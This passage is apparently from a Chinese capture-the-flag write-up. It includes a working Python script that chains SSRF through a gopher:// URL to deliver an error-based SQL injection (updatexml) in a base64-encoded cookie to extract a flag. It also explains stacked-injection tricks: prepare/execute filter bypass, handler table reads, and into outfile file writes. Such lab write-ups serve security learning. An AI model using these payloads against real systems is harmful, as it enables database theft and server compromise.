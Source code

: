 在cookie处存在注入，可以通过报错拿到flag

```python
import requests
import urllib.parse
import base64

url = 'http://ip/use.php'

sqlpayload = 'uname=admin&passwd=admin&Submit=1'
cookie = b'''this_is_your_cookie=admin') and updatexml(1,concat(0x7e,(select substr((select flag from flag),1,40))),1)#'''

sqlbody_post = '''POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-type:application/x-www-form-urlencoded
Content-Length: {}

{}
'''.replace('\n','\r\n').format(len(sqlpayload),sqlpayload)

sqlbody_get = '''GET /index.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=3qip5l91lc1jtal09u9h40tkp0;this_is_your_cookie={}
'''.replace('\n','\r\n').format(urllib.parse.quote(str(base64.b64encode(cookie),encoding='utf-8')))

print(sqlbody_get)
gopher_payload = urllib.parse.quote('gopher://127.0.0.1:80/_'+ urllib.parse.quote(sqlbody_get))

r = requests.get(url+'?url='+gopher_payload)
print(r.text)
```

##  easy_sql_2

对于堆叠注入

常用的语句就是`prepare execute handler select update insert drop show    into outfile`

prepare和execute：就是用set定义一个字符串变量，而字符串变量可以用concat来绕过过滤，再用prepare对字符串进行预处理变成一个statement，execute执行字符串。



handler是MySQL独有的语句，代替select的，功能就是打开一个表，然后返回一个句柄，一行一行读

```
handler table_name open;
handler table_name read first;
handler table_name reand next;
```

show:就可以直接得数据库等信息

into outfile:可以写文件到目录中。

[可以参考这个](https://blog.csdn.net/unexpectedthing/article/details/120638329?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522164974900016781683915213%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=164974900016781683915213&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-6-120638329.nonecase&utm_term=mysql&spm=1018.2226.3001.4450)

